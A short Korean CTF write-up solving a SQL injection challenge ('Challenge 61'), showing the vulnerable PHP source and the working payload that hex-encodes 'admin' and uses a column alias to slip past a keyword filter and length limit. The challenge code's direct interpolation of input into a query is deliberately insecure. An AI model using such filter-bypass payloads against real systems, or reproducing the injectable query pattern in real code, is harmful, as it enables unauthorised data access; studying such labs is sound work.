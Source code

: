 # SQLi

```php+HTML
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  $db = dbconnect();
  if(!$_GET['id']) $_GET['id']="guest";
  echo "<html><head><title>Challenge 61</title></head><body>";
  echo "<a href=./?view_source=1>view-source</a><hr>";
  $_GET['id'] = addslashes($_GET['id']);
  if(preg_match("/\(|\)|select|from|,|by|\./i",$_GET['id'])) exit("Access Denied");
  if(strlen($_GET['id'])>15) exit("Access Denied");
  $result = mysqli_fetch_array(mysqli_query($db,"select {$_GET['id']} from chall61 order by id desc limit 1"));
  echo "<b>{$result['id']}</b><br>";
  if($result['id'] == "admin") solve(61);
  echo "</body></html>";
?>
```

id파라미터가 없으면 자동 id=guest가 된다.

마지막 쿼리문을 보자. 입력받은 id를 검색할때, id칼럼을 내림차순으로 정렬하고 젤 위에 있는거를 가져온다.

```sql
select {$_GET['id']} from chall61 order by id desc limit 1
```

?id='admin' from chall61-- 넣으면 

```sql
select 'admin' from chall61-- from chall61 order by id desc limit 1
```

해결될거라 생각했으나 아니었다.
from이 필터링되고 있고, ''같은 따옴표가 addslash에 의해 이스케이프가 붙는다. 

SQL에는 alias라는 기능이 있다. 
테이블에 별칭을 부여하고 그 별칭으로 접근을 할 수 있게 하는 기능이다. 

일단, admin을 따옴표없이 넣어주기 위해 16진법으로 바꾼다.
그리고 id alias를 해서 다음과 같은 payload를 인젝트한다.

```
?id=0x61646d696e as id -- 문자길이 초과, as는 생략가능
?id=0x61646d696e id
```

> SQL 우회기법으로 alias를 사용하는 방법
> SQL 공부좀 하자..